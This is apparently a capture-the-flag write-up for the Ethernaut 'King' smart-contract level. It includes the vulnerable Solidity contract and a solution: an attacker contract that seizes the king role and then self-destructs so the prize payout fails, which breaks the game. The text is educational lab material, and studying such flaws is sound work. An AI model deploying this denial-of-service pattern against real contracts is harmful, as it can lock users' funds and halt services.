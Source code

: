 # King
_difficulty 6/10_

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD  


Such a fun game. Your goal is to break it.  


When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.  

## Sources
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

## Level author  
Alejandro Santander  
palebluedot@gmail.com  
https://github.com/ajsantander  

## Solution

1. Check current prize level  
`web3.fromWei(await contract.prize())`  
"1"

2. Use remix to deploy `KingKiller.sol` contract, include 1Eth to takeover current King position.  
```javascript
pragma solidity ^0.4.18;

contract KingKiller {
  address private _king;

  function KingKiller(address king) public payable {
    _king = king;
    require(address(_king).call.value(msg.value).gas(100000)());
  }

  function kill() public {
    selfdestruct(_king);
  }
}
```

3. Check if we are the current king.  
`await contract.king()`  

3. Invoke `kill` function on the `KingKiller` contract. This will prevent the King contract from paying the prize back to us, and break it.  

4. Submit instance 🎉  

## Lesson

Most of Ethernaut's levels try to expose (in an oversimpliefied form of course) something that actually happend. A real hack or a real bug.  


In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html)
